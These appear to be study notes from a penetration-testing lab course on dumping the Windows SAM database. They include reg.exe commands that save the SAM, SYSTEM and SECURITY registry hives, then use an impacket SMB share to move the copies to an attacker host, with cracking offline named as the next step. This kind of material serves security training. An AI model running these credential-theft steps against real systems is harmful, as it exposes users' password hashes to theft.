 # Attacking SAM

-non-domain-joined-user
-dump sam database and transfer it to our attack box
-we crack it offline

#### Copying SAM Registry Hives
There are three registry hives that we can copy if we have local admin access on the target; each will have a specific purpose when we get to dumping and cracking the hashes.

| Registry Hive   | Description                                                                                                                                                |
| --------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `hklm\sam`      | Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. |
| `hklm\system`   | Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.                              |
| `hklm\security` | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.                                        |
We can create backups of these hives using the `reg.exe` utility.

#### Using reg.exe save to Copy Registry Hives

Launching CMD as an admin will allow us to run reg.exe to save copies of the aforementioned registry hives.
```cmd-session
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

The operation completed successfully.
```

-Technically we will only need `hklm\sam` & `hklm\system`
-`hklm\security`  helpful to save as it can contain hashes associated with cached domain user account credentials present on domain-joined hosts.
-Once the hives are saved offline, we can use various methods to transfer them to our attack host.

#### Creating a Share with smbserver.py

Attacking SAM
```shell-session
AhmaDb0x@htb[/htb]$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/
```
Once we have the share running on our attack host, we can use the `move` command on the Windows target to move the hive copies to the share.
#### Moving Hive Copies to Share
```cmd-session
C:\> move sam.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move security.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move system.save \\10.10.15.16\CompData
```
